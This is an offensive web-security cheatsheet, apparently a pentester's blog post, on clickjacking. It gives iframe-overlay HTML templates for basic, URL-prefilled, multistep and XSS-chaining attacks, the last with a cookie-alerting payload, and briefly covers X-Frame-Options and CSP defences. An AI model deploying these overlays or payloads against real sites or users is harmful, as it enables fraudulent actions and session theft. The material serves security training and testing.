```yaml
---
title: "Clickjacking    "
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "Clickjacking cheatsheet"

tags: ["web", "penetest", "clickjacking", "phishing"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

Example (from imperva.com) : 
1.  The attacker creates an attractive page which promises to give the user a free trip to Tahiti.
2.  In the background the attacker checks if the user is logged into his banking site and if so, loads the screen that enables transfer of funds, using query parameters to insert the attacker’s bank details into the form.
3.  The bank transfer page is displayed in an invisible iframe above the free gift page, with the “Confirm Transfer” button exactly aligned over the “Receive Gift” button visible to the user.
4.  The user visits the page and clicks the “Book My Free Trip” button.
5.  In reality the user is clicking on the invisible iframe, and has clicked the “Confirm Transfer” button. Funds are transferred to the attacker.
6.  The user is redirected to a page with information about the free gift (not knowing what happened in the background).

![alt CJ example](https://lh3.googleusercontent.com/QsCvEJWxO4xG9x4pV8Cujs55AqqtPjADgSjlmu9WxI7C0brjrFXc_tlKft169KicxtePmgKnXa-ovKP3SwCNQrXzr4mwSaLEL_EI0I4dF85zPGV7cM3kVCqPcd-VIhyJ-whhkI0)

## Some examples

- Basic clickjacking with CSRF token protection

	1. Construct a page looking like : 
    {{< highlight html "lineNos=false" >}}
    <style>  
        iframe {  
        position:relative;  
        width:$width\_value;  
        height: $height\_value;  
        opacity: $opacity;  // Set opacity to make the button transparent
        z-index: 2;  
        }  
        div {  
        position:absolute;  
        top:$top\_value;  // Change this to fully cover the baiting action
        left:$side\_value;  // Change this to fully cover the baiting action
        z-index: 1;  
        }  
    </style>  
    <div>Test me</div>  
    <iframe src="$url"></iframe>
    {{< /highlight >}}
	
	2. Send the link to the victime and pray


- Clickjacking with form input data prefilled from a URL parameter

	1. Construct a page looking like : 
		{{< highlight html "lineNos=false" >}}
		<style>  
		   iframe {  
			   position:relative;  
			   width:$width_value;  
			   height: $height_value;  
			   opacity: $opacity;  
			   z-index: 2;  
		   }  
		   div {  
			   position:absolute;  
			   top:$top_value;  
			   left:$side_value;  
			   z-index: 1;  
		   }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url?email=hacker@attacker-website.com"></iframe>
		{{< /highlight >}}

	2. Send the link to the victime and pray


- Exploiting clickjacking vulnerability to trigger DOM-based XSS

	1. Construct a page looking like:
	
	{{< highlight html "lineNos=false" >}}
	<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 div {  
	 position:absolute;  
	 top:$top\_value;  
	 left:$side\_value;  
	 z-index: 1;  
	 }  
	</style>  
	<div>Test me</div>  
	<iframe  
	src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
	{{< /highlight >}}
	
	2. Send the link to the victime and pray
	
- Multistep clickjacking
    
    Just include as much button as you need
{{< highlight html "lineNos=false" >}}
<style>  
    iframe {  
    position:relative;  
    width:$width\_value;  
    height: $height\_value;  
    opacity: $opacity;  
    z-index: 2;  
    }  
    .firstClick, .secondClick {  
    position:absolute;  
    top:$top\_value1;  
    left:$side\_value1;  
    z-index: 1;  
    }  
    .secondClick {  
    top:$top\_value2;  
    left:$side\_value2;  
    }  
</style>  
<div class="firstClick">Test me first</div>  
<div class="secondClick">Test me next</div>  
<iframe src="$url"></iframe>
{{< /highlight >}}



## How to prevent them 

Two main option are in use to prevend them: 

- X-frame-options: 
    - deny : Make the site impossible to include into ifram balise
    - sameorigin: Make ifram only useable on the same website
    - allow-from: Specify URL that can include the website iframe 
- CSP: You can use a lot of CSP option to restrict page inclusion